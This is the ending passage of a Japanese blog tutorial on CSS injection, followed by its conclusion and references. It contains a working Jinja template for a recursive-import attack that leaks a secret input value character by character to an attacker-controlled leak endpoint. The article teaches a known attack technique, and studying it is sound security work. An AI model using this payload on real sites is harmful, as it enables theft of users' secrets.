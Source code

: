 CSSのレスポンスは以下の`jinja`テンプレートを用いて行います．  
```jinja
@import url("http://0.0.0.0:8081/css/{{ index+1 }}.css");

{% for try_secret in "0123456789abcdef" %}
input[value^={{ known_secret + try_secret }}]{{ ":first-child" * index }}{
    background: url("http://0.0.0.0:8081/leak/{{ known_secret + try_secret }}");
}
{% endfor %}
```
  
なお，単にCSSを挿入しただけではブラウザ上での読み込みの優先度の問題で正しく動作しませんが，[m---/onsen](https://github.com/m---/onsen/)にて示されている`:first-child`チェインを用いる手法によって本攻撃を実現します．[2][3]

# おわりに
本記事では，CSSiについて，その原理や攻撃手法の概要を示すとともに，攻撃環境を実装して，HTML上に存在する機密情報を窃取する攻撃を模擬しました．  
また，Recursive Importという手法を活用した攻撃手法についても説明しました．  
  
CSSi脆弱性によって可能になる攻撃やその手法は他にも存在します．  
さらにキャッチアップしたい方は[1]や[4]，[5]，[6]を参照してみてください．

# 参考文献
1. PortSwigger, CSS injection (reflected), [https://portswigger.net/kb/issues/00501300_css-injection-reflected](https://portswigger.net/kb/issues/00501300_css-injection-reflected)

1. GitHub, m---/onsen, [https://github.com/m---/onsen/](https://github.com/m---/onsen/)

1. Mozilla, 詳細度 - CSS: カスケーディングスタイルシート | MDN, [https://developer.mozilla.org/ja/docs/Web/CSS/Specificity](https://developer.mozilla.org/ja/docs/Web/CSS/Specificity)

1. SpeakerDeck, CSS Injection ++ - 既存手法の概観と対策, [https://speakerdeck.com/lmt_swallow/css-injection-plus-plus-ji-cun-shou-fa-falsegai-guan-todui-ce](https://speakerdeck.com/lmt_swallow/css-injection-plus-plus-ji-cun-shou-fa-falsegai-guan-todui-ce)

1. やっていく気持ち，CSS Injection 再入門, [https://diary.shift-js.info/css-injection/](https://diary.shift-js.info/css-injection/)

1. INT 4: HACKER, Possibility of DOM based XSS attack by Pseudo-elements from CSS Injection / JavaScriptはCSSインジェクションのDOMを見るか？, [https://www.hack.vet/entry/20190314/1552535283](https://www.hack.vet/entry/20190314/1552535283)